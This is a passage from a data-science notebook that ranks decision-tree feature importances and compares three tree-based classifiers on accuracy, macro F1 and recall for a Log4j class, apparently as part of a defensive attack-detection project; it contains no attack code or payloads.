

In [234]:
full_model = decision_tree_search.best_estimator_
preprocessor = full_model.named_steps["preprocessor"]
decision_tree = full_model.named_steps["classifier"]

transformed_feature_names = preprocessor.get_feature_names_out()
feature_importance = (
    pd.DataFrame(
        {
            "feature": transformed_feature_names,
            "importance": decision_tree.feature_importances_,
        }
    )
    .sort_values("importance", ascending=False)
    .reset_index(drop=True)
)

display(feature_importance.head(20))

fig, ax = plt.subplots(figsize=(10, 7))
top_features = feature_importance.head(15).sort_values("importance")
ax.barh(top_features["feature"], top_features["importance"])
ax.set_title("Top 15 Decision Tree Feature Importances")
ax.set_xlabel("Feature importance")
ax.set_ylabel("Transformed feature")
plt.tight_layout()
plt.show()

## 12. Model Comparison

We compare Decision Tree, Random Forest, and Gradient Boosting
using the same dataset and feature configuration.

The evaluation considers accuracy, macro F1-score, and Log4j recall
to identify the differences in performance between the models.

In [235]:
model_pipelines = {
    "Decision Tree (tuned)": decision_tree_search.best_estimator_,
    "Random Forest": build_classifier_pipeline(
        RandomForestClassifier(
            random_state=RANDOM_STATE,
            n_estimators=100,
            max_depth=20,
            min_samples_split=2,
        ),
        ENGINEERED_FEATURES,
    ),
    "Gradient Boosting": build_classifier_pipeline(
        GradientBoostingClassifier(
            random_state=RANDOM_STATE,
            n_estimators=100,
            max_depth=4,
        ),
        ENGINEERED_FEATURES,
    ),
}

X_full_train = X_train_by_experiment["Full engineered set"]
X_full_test = X_test_by_experiment["Full engineered set"]

model_comparison_rows = []
model_holdout_predictions = {}

for model_name, model_pipeline in model_pipelines.items():
    cv_results = cross_validate(
        clone(model_pipeline),
        X_full_train,
        y_train,
        cv=5,
        scoring=SCORING,
        n_jobs=-1,
        return_train_score=False,
    )

    fitted_model = clone(model_pipeline).fit(X_full_train, y_train)
    predictions = fitted_model.predict(X_full_test)
    model_holdout_predictions[model_name] = predictions
    test_metrics = calculate_test_metrics(y_test, predictions)

    model_comparison_rows.append(
        {
            "model": model_name,
            "cv_accuracy_mean": cv_results["test_accuracy"].mean(),
            "cv_accuracy_std": cv_results["test_accuracy"].std(),
            "cv_macro_f1_mean": cv_results["test_f1_macro"].mean(),
            "cv_log4j_recall_mean": cv_results["test_log4j_recall"].mean(),
            "test_accuracy": test_metrics["accuracy"],
            "test_log4j_recall": test_metrics["log4j_recall"],
            "test_macro_f1": test_metrics["macro_f1"],
        }
    )

model_comparison = pd.DataFrame(model_comparison_rows).set_index("model")

display(
    model_comparison.style.format(
        {
            "cv_accuracy_mean": "{:.3f}",
            "cv_accuracy_std": "{:.3f}",
            "cv_macro_f1_mean": "{:.3f}",
            "cv_log4j_recall_mean": "{:.3f}",
            "test_accuracy": "{:.3f}",
            "test_log4j_recall": "{:.3f}",
            "test_macro_f1": "{:.3f}",
        }
    )
)


,cv_accuracy_mean,cv_accuracy_std,cv_macro_f1_mean,cv_log4j_recall_mean,test_accuracy,test_log4j_recall,test_macro_f1
model,,,,,,,
Decision Tree (tuned),0.958,0.011,0.961,1.000,0.972,1.000,0.975
Random Forest,0.961,0.008,0.966,1.000,0.972,1.000,0.975
Gradient Boosting,0.958,0.011,0.961,1.000,0.972,1.000,0.975
